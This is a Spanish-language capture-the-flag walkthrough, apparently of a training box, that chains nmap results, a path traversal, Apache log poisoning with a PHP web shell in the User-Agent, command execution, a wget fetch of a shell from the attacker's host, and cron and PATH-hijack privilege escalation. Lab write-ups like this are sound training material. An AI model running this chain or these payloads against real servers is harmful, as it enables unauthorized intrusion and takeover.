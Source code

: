 ```css
```PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web 
![[Pasted image 20231115001626.png]]
Al poner el dominio, ya tenemos la primera flag.

## Fuzzing
```
/robots.txt
/test.php
```

## Path Traversal

mirando el ``/etc/passwd`` 
![[Pasted image 20231115001838.png]]

para ver los logs 
```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

## User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```php
<?php system($_GET['cmd']);?>
```
![[Pasted image 20231115002021.png]]

Podemos ejecutar comandos mediante el parámetro ``&cmd=``
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```
![[Pasted image 20231115002056.png]]

Cargamos una shell en php mediante wget. 
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

## Shell www-data

![[Pasted image 20231115002136.png]]
## movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![[Pasted image 20231115002205.png]]
![[Pasted image 20231115002239.png]]

## Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![[Pasted image 20231115002308.png]]

![[Pasted image 20231115002336.png]]
Al ejecutarlo ya somos root.